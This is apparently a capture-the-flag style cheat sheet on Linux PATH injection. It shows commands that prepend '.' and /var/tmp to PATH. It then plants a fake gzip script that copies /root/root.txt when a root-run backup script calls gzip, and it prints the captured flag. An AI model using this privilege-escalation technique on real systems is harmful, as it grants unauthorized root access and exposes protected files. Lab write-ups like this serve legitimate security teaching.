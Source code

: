 ```yaml
---
description: >-
  PATH is an environment variable that specifies the set of directories where an
  executable can be located.
---
```


# Linux Path Injection

### Path&#x20;

```bash
$ echo $PATH             
/home/kali/.local/bin:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/kali/.dotnet/tools
```

A user account's PATH variable is a set of absolute path's. This way users can type a command like `smbclient` instead of the whole absolute path like `/usr/bin/smbclient` .

### Path abuse

To abuse this we can either add `.` to the users path we can run binaries from our current working directory.&#x20;

```bash
$ PATH=.:${PATH}
$ export PATH
$ echo $PATH

# you can here the . has been added.
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

But it also possible to use /var/tmp like `export PATH=/var/tmp:$PATH` .&#x20;

```bash
echo $PATH
/var/tmp:.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Having set a new path variable its possible to create or copy a binary to that location in this case /var/tmp. A binary gzip is being executed as root so by making a new gzip binary in /var/tmp it will get executed first.

We can run any command as root, either making a reverse shell or reading root flag.

```bash
# Make duplicate gzip 
mczen:/var/tmp$ echo 'cat /root/root.txt > /tmp/root.txt' > gzip
mczen:/var/tmp$ chmod +x gzip

# the backup.sh calling gzip as root.
mczen:/var/tmp$ sudo /opt/scripts/backup.sh
[sudo] password for m4lwhere: 

# Get root flag.
mczen:/var/tmp$ ls /tmp
root.txt                                                                 
mczen:/var/tmp$ cat /tmp/root.txt
b8e6d482f0f446d7d5e85ec2e77b238e
```
